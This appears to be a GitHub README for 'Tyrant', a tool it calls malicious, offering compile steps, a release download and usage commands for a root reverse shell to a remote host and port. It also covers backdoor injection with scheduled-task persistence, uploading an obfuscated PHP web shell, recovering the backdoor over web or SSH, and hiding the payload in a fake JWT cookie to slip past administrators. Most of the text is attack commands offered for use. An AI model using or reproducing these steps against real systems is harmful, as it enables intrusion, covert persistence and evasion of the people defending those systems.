 

# Tyrant

![Tyrant Logo](pic/main.png)

Tyrant is a malicious tool used for penetration testing and remote control persistence, featuring the following capabilities:

- **Reverse Shell**: Allows an attacker to initiate a shell session with the specified user UID, gaining the corresponding privileges.
- **Backdoor Injection & Persistence**: Injects a backdoor into the target system and ensures control is maintained even after a system reboot.
- **Tyrant Web Shell Upload**: Uploads and executes the Tyrant reverse shell via web access.
- **Encryption & Fake Protocols**: Uses fake JWT tokens and encrypted communication to bypass security detection.
- **SSH Recovery**: Allows the attacker to reconnect and restore the backdoor via SSH.

For more information and downloads, visit: [Tyrant GitHub](https://github.com/MartinxMax/Tyrant)

## Version 2 Compilation

First, install the dependencies:

```
# sudo apt-get install zlib1g-dev libzstd-dev
```

Then compile Tyrant:

```
$ gcc -static -o tyrant tyrant.c ./lib/core.c ./lib/random_md5.c -lssl -lcrypto -lz -lzstd
```

![alt text](pic/image-1.png)

## Version 2 Release

Alternatively, you can download the Tyrant V2 release from the following link:

[Download Link](https://github.com/MartinxMax/Tyrant/releases/download/version-2.0/tyrant)

![alt text](pic/image.png)

## Tyrant Initialization

Upload Tyrant to the target server and execute:

```
(Target) $ ./tyrant -h
```

![alt text](pic/image-4.png)

**Note: Initial execution requires ROOT privileges!**

```
(Target) # chmod +x tyrant
(Target) # ./tyrant
```

![alt text](pic/image-3.png)

## Tyrant Reverse Shell

```
Username             UID      Home Directory
--------             ----     ------------
root                 0        /bin/bash
daemon               1        /usr/sbin/nologin
bin                  2        /usr/sbin/nologin
sys                  3        /usr/sbin/nologin
sync                 65534    /bin/sync
games                60       /usr/sbin/nologin
man                  12       /usr/sbin/nologin
lp                   7        /usr/sbin/nologin
mail                 8        /usr/sbin/nologin
news                 9        /usr/sbin/nologin
uucp                 10       /usr/sbin/nologin
proxy                13       /usr/sbin/nologin
www-data             33       /usr/sbin/nologin
backup               34       /usr/sbin/nologin
list                 38       /usr/sbin/nologin
irc                  39       /usr/sbin/nologin
gnats                41       /usr/sbin/nologin
nobody               65534    /usr/sbin/nologin
systemd-network      102      /usr/sbin/nologin
systemd-resolve      103      /usr/sbin/nologin
syslog               106      (null)
messagebus           107      (null)
_apt                 65534    (null)
lxd                  65534    (null)
uuidd                110      (null)
dnsmasq              65534    /usr/sbin/nologin
landscape            112      (null)
pollinate            1        (null)
sshd                 65534    (null)
bob                  1004     /bin/bash
statd                65534    (null)
peter                1005     /bin/bash
insecurity           0        (null)
susan                1006     /bin/rbash
ntp                  113      (null)
```

```
(Target) $ ./tyrant -uid 0 -rhost 192.168.8.102 -rport 443
```

![alt text](pic/image-5.png)

## Backdoor Mode & Persistence Control

**Injecting Backdoor**:

```
(Target) $ ./tyrant -b &
```

![alt text](pic/image-6.png)

**View Backdoor Information**:

```
(Target) $ tyrant
```

![alt text](pic/image-7.png)

**Upload Tyrant Web Shell**:

```
(Self) $ python tyrant_per.py -h
```

![alt text](pic/image-9.png)

Note: The `id` refers to the machine's `mid`

```
(Self) $ python tyrant_per.py -id 01a2a9a7d07c4cf1881f57374930be93 -gen
```

![alt text](pic/image-10.png)

Obfuscate the PHP code before uploading the PHP file:

[PHP Obfuscation Tool](https://php-minify.com/php-obfuscator/)

```
(Self) $ python3 tyrant_per.py -id 01a2a9a7d07c4cf1881f57374930be93 -uid 0 -rhost 192.168.8.102 -rport 443 -url http://192.168.8.103:8080/tyrant.php
```

![alt text](pic/image-15.png)

Note: You must provide the correct `mid` value for the server validation to pass.

### Reboot and Automatically Load the Backdoor

Once the backdoor is initially started, the persistence mechanism will automatically add a scheduled task to restart it after a reboot:

![alt text](pic/image-8.png)

### Backdoor Recovery

If the main backdoor program is deleted, you can restore the backdoor by running a subprogram.

### Automatic Recovery via Web (tyrant-persistent)

```
(Self) $ python3 tyrant_per.py -id 01a2a9a7d07c4cf1881f57374930be93 -uid 0 -rhost 192.168.8.102 -rport 443 -url http://192.168.8.103:8080/tyrant.php
```

![alt text](pic/image-16.png)

![alt text](pic/image-17.png)

Execute the command to reload the backdoor:

```
(Target) $ ls /usr/local/bin
```

![alt text](pic/image-18.png)

### Automatic Recovery via SSH

```
(Self) $ ssh bob@192.168.8.103
```

![alt text](pic/image-19.png)

Execute the new backdoor:

```
(Self) $ 7a3e88a5ad1a1d87e10df9fe807d7625 &
```

![alt text](pic/image-20.png)

# About the Encryption Techniques & Fake Protocols Used in Tyrant

By simulating a man-in-the-middle attack, the Tyrant payload is embedded within a Cookie, which can be exploited as follows:

![alt text](pic/image-21.png)

> Cookie: tyrant=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.SxMIVkMDQwdVUQUCDQJRVQgPUlJWUQIPDAhVBVVWDgcJAlFQBABSFUgSQgpQQVwTCBodREdfXERAGwkSU1wLHQEHWRxZF1AHVhIbQUYTCUNMGgtEAQMAFUk.Ag5WWgUFAQMGAQ

Using this fake JWT token, attackers can easily obfuscate and bypass administrator inspections.

![alt text](pic/image-22.png)

**Prevent Replay Attacks**:

![alt text](pic/image-23.png)

The server validates the timestamp to determine if the packet is outdated:

![alt text](pic/image-24.png)

You can set the `timeout` field in `./php/rev` to control the packet expiration time, typically measured in seconds.

![alt text](pic/image-25.png)

 